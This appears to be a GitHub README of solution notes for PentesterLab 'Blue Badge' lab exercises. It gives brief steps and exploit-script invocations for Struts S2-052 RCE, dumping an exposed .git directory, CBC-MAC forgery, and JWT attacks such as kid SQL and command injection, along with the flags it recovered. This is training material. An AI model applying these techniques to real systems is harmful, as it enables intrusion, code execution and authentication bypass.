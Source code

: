 ## Blue Badge

### Struts S2-052
XML deserialization to RCE

```
$ python3 s2-052.py --target http://ptl-cb6ff16c-87a44c51.libcurl.so/orders/3 --command "/usr/local/bin/score 2fdb31a2-ca58-4650-abfb-9406be061d69"
```

### Git Information Leak
Go to `/.git`

### Git Information Leak II
Exploring the `.git` directory

```
http://ptl-b59955a8-7868f360.libcurl.so/.git/HEAD
http://ptl-b59955a8-7868f360.libcurl.so/.git/refs/heads/master
http://ptl-b59955a8-7868f360.libcurl.so/.git/objects/cc/c6fa9250402cc9a7631fb0be559f00c5fd227a
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - c6fa9250402cc9a7631fb0be559f00c5fd227a |gzip  -cd -q
http://ptl-b59955a8-7868f360.libcurl.so/.git/objects/58/ace0476093d04023f84d7816adacfa7b879c43
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - ace0476093d04023f84d7816adacfa7b879c43 |gzip  -cd -q|strings -a|less
tree 182
40000 css
100644 favicon.ico
s100644 footer.php
3100644 header.php
100644 index.php
```

Read files through their hashes

```
Unfortunately, using strings does not give us the hash for each file. We can do is create our own local repo:

$ mkdir /tmp/hack
$ cd /tmp/hack
$ git init 
And copy our files in it:

$ mkdir -p .git/objects/58 .git/objects/bc
$ cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
$ cp /tmp/4f01bdd14060e4ac78b36972584909d287b6f1 /tmp/hack/.git/objects/bc/
Then we should be able to retrieve the list of hashes:

$ git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
040000 tree b352dde43705f193d2c1d4e6f6a133321186869f    css
100644 blob f303c6a7797f5e7a0d5bd31d39a7149366bbf873    favicon.ico
100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33    footer.php
100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82    header.php
100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c    index.php
Once you're there, you can keep downloading the files and copying them in the right spot to get access to the full code using git cat-file -p ....
```

Or you can use GitTools's gitdumper

```
$ ./gitdumper.sh http://ptl-b59955a8-7868f360.libcurl.so/.git/ out1
$ ./extractor.sh out1 out2
# key in header.php: 7a56a0cc-f042-4b43-97de-d4427197e8fa
```

### CBC MAC
- first get the signature for `administ` since block size is 8 bytes.
- then get the signature for `sign("administ") ^ "rator%00%00%00"`
- this signature will work for `administrator`

```
$ python3 cbc-mac.py
```

### CBC MAC II

- proper implementation of CBC-MAC uses a NULL IV.
- a string of block-size that only contains NULL bytes.
- in this application IV is random and given to user as a cookie.
- the trick from `CBC MAC 1` won't work since the IV changes each time you login.
- so the signature for `administ` will not be applicable next to for `rator%00%00%00`
- `administrator` can be written as `bdministrator`
- then xor the first character in both iv and auth.

```
$ python3 cbc-mac2.py
# 93fb87b6-11b4-485f-973e-91206b7234ba
```

### JWT III
- kid in jwt helps rotating keys, but the key retrieval might be compromised.
- the key retrieval is done prior to the signature verification.
- https://tools.ietf.org/html/rfc7515#section-4.1.4

```
$ python3 jwt-3.py #kid-injection
```

### JWT IV
- kid in jwt helps rotating keys, but the key retrieval might be compromised.
- the retrieval is done prior to the verfication of the signature therefore valid signature is not required.
- https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/
    - ruby has two ways to open a file.
    - if it uses `Kernel.open` or `open` and the filename starts with a pipe (|) then the filename will be run as a command.

```
# set kid as the command you want to execute
$ python3 jwt-4.py
```

### JWT V
bruteforce the secret key

```
$ python3 jwt-5.py
```

### JWT VI
sql injection in jwt kid header

```
$ python3 jwt-6.py
# 6224a507-98fe-4d3f-805d-ae41ada4b4ae
# 3185a61d-1b90-4c24-8ce9-5e1ee6fbc5b8
```

### JWT VII
signature not verified

```
$ python3 jwt-7.py
# 62e50e5a-32f5-430d-aeda-ac2d30bab335
```

### CVE-2018-0114

- https://nvd.nist.gov/vuln/detail/CVE-2018-0114
- JWT allows users to embed public keys (using the `jwk` value) inside the header of the token.
- Some vulnerable libraries may trust the key you're providing even if the app doesn't use jwk.




